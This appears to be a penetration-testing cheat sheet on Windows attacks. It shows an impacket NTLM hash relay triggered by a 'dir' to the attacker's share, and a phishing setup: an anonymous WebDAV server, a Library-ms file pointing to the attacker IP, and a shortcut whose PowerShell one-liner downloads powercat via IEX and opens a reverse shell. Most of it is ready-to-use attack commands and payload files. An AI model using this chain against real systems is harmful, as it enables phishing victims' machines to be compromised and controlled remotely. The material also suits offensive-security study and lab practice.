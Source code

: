 From the windows machine that we have access as an unprivilege user, we send a dir/ls command to your ip:
```
dir \\$lhost\something
```

With this, impacket will try to relay our hash to other machine with ip is `server_need_access`.

## Client Side Attack

### Mail Server

Get some credentials and try to use it as phishing attack

Setting up a webdav share and put your phishing file in webdab dir (config.Library-ms and the reverse shell shortcut):
```
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /path/to/webdav/
```

Use Visual Studio to save the config.Library-ms file:
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://changeheretoyourip</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
NOTE: changeheretoyourip should be your webdav ip, which in this case is your machine tun0 interface ip.

Windows shortcut (in Desktop, select New > Shortcut) should be:
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$lhost:$webport/powercat.ps1'); powercat -c $lhost -p $lport -e powershell"
```

Copy to a another directory powercat script and set up a web server to it:
```
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
```
